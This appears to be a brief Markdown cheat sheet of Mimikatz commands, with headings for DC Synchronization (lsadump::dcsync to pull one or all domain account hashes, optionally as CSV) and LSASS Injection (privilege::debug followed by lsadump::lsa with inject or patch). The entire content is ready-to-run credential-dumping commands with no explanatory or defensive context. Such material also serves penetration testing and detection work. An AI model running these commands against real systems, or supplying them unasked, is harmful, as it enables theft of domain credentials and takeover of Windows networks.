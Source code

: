 # Mimikatz

## 01 - DC Synchronization

```
mimikatz # lsadump::dcsync /domain:<domain> [/user:<username>]

mimikatz # lsadump::dcsync /domain:<domain> [/user:<username>] /all /csv
```

## 02 - LSASS Injection

### 2.1 - Mimikatz

```
mimikatz # privilege::debug

mimikatz # lsadump::lsa [/inject | /patch]
```